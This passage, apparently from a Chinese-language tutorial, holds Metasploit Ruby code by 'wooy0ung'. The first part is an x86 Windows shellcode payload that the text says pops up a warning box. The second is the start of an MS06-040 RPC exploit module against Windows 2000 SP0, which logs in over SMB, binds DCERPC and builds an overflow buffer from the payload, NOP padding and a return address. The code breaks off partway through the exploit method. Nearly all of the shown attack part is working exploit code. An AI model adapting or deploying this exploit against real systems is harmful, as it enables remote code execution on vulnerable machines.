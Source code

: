 ```
      'Author'        => [ 'wooy0ung' ],
      'Platform'      => 'win',
      'Arch'          => ARCH_X86,
      'Payload'       =>
        {
          'Payload' =>
           	"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"+
		"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"+
		"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"+
		"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"+
		"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"+
		"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"+
		"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"+
		"\xd7"
        }
      ))
  end

end
```

以上是一段弹出警告框的payload，新建一个文本贴入以上代码，保存为warning.rb

```
##
# Author: wooy0ung
# Date:	2018/01/15
##

require 'msf/core'  

class Metasploit3 < Msf::Exploit::Remote  
	Rank = GoodRanking

	include Exploit::Remote::DCERPC
	include Exploit::Remote::SMB::Client

	def initialize(info = {})

		super(update_info(info,
			'Name'           =>     "MS06-040 RPC Exploit",
			'Description'    => 	'Only for Windows 2000 Professional sp0',
      		        'Author'         => 	[ 'wooy0ung' ],
			'Platform'       =>	"win",
			'DefaultOptions' =>	{'EXITFUNC' => 'thread',},
			'DefaultTarget'  => 	0,
			'Targets'        =>	[['Windows 2000 Professional sp0',  {'Ret' => [0x318 , 0x74FB62C3] }]]))

		register_options([OptString.new('SMBPIPE', [ true,  "The pipe name to use (BROWSER, SRVSVC)", 'BROWSER']),], self.class) 

	end

	def exploit

		connect()
		smb_login()

		handle = dcerpc_handle('4b324fc8-1670-01d3-1278-5a47bf6ee188','3.0','ncacn_np',["\\#{datastore['SMBPIPE']}"])
		dcerpc_bind(handle)

		prefix = payload.encoded + make_nops(0x100 - payload.encoded.length - 2) + "\x00\x00"
```